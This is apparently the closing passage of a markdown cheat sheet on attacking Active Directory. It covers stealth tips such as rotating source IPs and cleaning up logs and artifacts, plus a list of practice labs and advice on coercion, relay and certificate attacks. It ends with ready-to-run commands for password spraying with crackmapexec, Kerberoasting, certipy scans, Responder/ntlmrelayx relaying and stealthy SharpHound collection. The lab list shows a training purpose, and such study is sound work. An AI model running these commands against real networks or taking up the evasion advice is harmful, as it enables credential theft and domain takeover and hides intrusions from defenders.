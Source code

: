 #### **🎭 Stealth Considerations**
- Use `--stealth` flags when available
- Rotate source IPs and user agents
- Time delays between attacks
- Clean up artifacts and logs
- Use legitimate tools when possible (PowerShell, WMI)

### **📚 Advanced Learning Resources**

#### **🔬 Practice Labs**
- **GOAD (Game of Active Directory)**: Complex multi-forest lab
- **VulnLab**: Advanced AD scenarios
- **HackTheBox Pro Labs**: Dante, RastaLabs, Offshore
- **TryHackMe**: Holo, Wreath networks

#### **🛠️ Custom Tooling**
```bash
# Build custom wordlists
cewl https://company.com > custom_wordlist.txt
hashcat --stdout -r best64.rule custom_wordlist.txt > enhanced_wordlist.txt

# Automation scripts
for target in $(cat targets.txt); do crackmapexec smb $target -u users.txt -p passwords.txt; done
```

### **🔥 Pro Tips for Advanced Practitioners**

1. **Always enumerate certificates first** - ADCS misconfigurations are common and powerful
2. **Coercion attacks are goldmines** - PetitPotam, PrinterBug, Coercer for forced authentication
3. **Don't ignore Exchange** - PrivExchange and ProxyLogon/ProxyShell are game-changers
4. **RBCD is underutilized** - Easier than traditional delegation attacks
5. **Shadow Credentials bypass MFA** - Modern technique for certificate-based attacks
6. **Trust relationships are highways** - Bidirectional trusts for lateral movement
7. **Check AdminSDHolder periodically** - Hidden privilege escalation opportunities
8. **LAPS enumeration pays off** - Local admin passwords for widespread access
9. **DNS is often overlooked** - DNS admin privileges can lead to domain admin
10. **Event logs tell stories** - Understand what you're generating for better evasion

### **⚡ Quick Reference Commands**

```bash
# One-liner domain takeover check
GetUserSPNs.py -dc-ip $DC domain.com/guest: -request | grep -i admin

# Certificate vulnerability scan
certipy find -u guest@domain.com -p '' -dc-ip $DC -vulnerable -stdout

# Quick NTLM relay setup
responder -I eth0 -A & ntlmrelayx.py -tf targets.txt -smb2support

# BloodHound data collection
sharphound.exe -c All --stealth --zipfilename $(hostname)_$(date +%Y%m%d).zip
```

---